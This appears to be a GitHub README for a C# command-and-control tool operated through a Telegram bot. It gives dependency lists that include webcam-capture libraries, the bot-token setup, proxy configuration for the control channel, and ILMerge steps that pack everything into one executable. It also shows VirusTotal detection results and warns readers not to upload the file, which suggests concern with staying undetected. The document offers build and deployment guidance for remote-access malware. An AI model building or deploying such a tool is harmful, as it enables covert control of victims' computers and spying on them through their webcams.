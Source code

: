 ! Telegra_Csharp_C2
Command and Control for C* Writing

Author:  Leiothrix

Telegram:  @Leiothrix

Twitter:  @wh4am1

Team:  QQ愛&Love

![logo](https://github.com/sf197/Telegra_Csharp_C2/blob/master/images/logo.png)

# VirusTotal check result
###### Don't pass it on to Virus Total anymore. I've tried it for you.
![VirusTotal](https://github.com/sf197/Telegra_Csharp_C2/blob/master/images/2.png)

link:https://www.virustotal.com/gui/file/ad1cd12bd6c8bee46ab35aa21a4fb48c2bcf9fdddbf1af82ad6f20eb75daa663/detection

# All view

- [Install](#Install)
- [How to used](#how-to-used)
- [Proxy](#Proxy)
- [How to compile](#how-to-compile)

# Install

###### Nuget download these package

```Csharp
using System.IO;
using Telegram.Bot;
using Telegram.Bot.Args;
using Telegram.Bot.Types.InputFiles;
using AForge.Video;
using AForge.Controls;
using AForge.Video.DirectShow;
```

###### Add related classes in 'References'

```c#
System.Drawing;
System.Windows.Forms;
```



# How to used

###### Modify your Token to the program

```csharp
 static void Main(){
            botClient = new TelegramBotClient("token");		//Your Token
            botClient.OnMessage += Bot_OnMessage;
            botClient.StartReceiving();
            Thread.Sleep(int.MaxValue);
}
```

![1566355269804](https://github.com/sf197/Telegra_Csharp_C2/blob/master/images/1.png)

###### have good fun.

# Proxy

###### TelegramBotClient allows you to use a proxy for Bot API connections. 



#### HTTP

###### You can pass an IWebProxy to bot client for HTTP Proxies.

```csharp
	// using System.Net;

	var httpProxy = new WebProxy("https://example.org", 8080)
	{
     	Credentials = new NetworkCredential("USERNMAE", "PASSWORD")
	};
	var botClient = new TelegramBotClient("YOUR_API_TOKEN", httpProxy);
```



#### SOCKS 5

###### You can use an external NuGet package: [HttpToSocks5Proxy](https://www.nuget.org/packages/HttpToSocks5Proxy/) provided 

```csharp
// using MihaZupan;

var proxy = new HttpToSocks5Proxy(Socks5ServerAddress, Socks5ServerPort);

// Or if you need credentials for your proxy server:
var proxy = new HttpToSocks5Proxy(
  Socks5ServerAddress, Socks5ServerPort, "USERNAME", "PASSWORD"
);

// Allows you to use proxies that are only allowing connections to Telegram
// Needed for some proxies
proxy.ResolveHostnamesLocally = true;

var botClient = new TelegramBotClient("YOUR_API_TOKEN", proxy);
```

# How to compile
##### How to compile all DLL files into an EXE file
###### First,You need download ILMerge tool,this is a tool for merging all references to .NET programs.
```cmd
ilmerge.exe /target:exe /out:TGbot.exe ConsoleApp1.exe  AForge.Controls.dll AForge.dll AForge.Imaging.dll AForge.Math.dll AForge.Video.DirectShow.dll AForge.Video.dll Newtonsoft.Json.dll Telegram.Bot.dll /targetplatform:v4
```
###### /target -> library=>DLL exe=>exe
###### /targetplatform:v4 -> Compiler platform is .net 4.0
###### /out -> Merged output file,Parameters are followed by files that need to be merged
Finally, generate output in the directory specified by the out parameter

还在完善！还在完善！还在完善！
 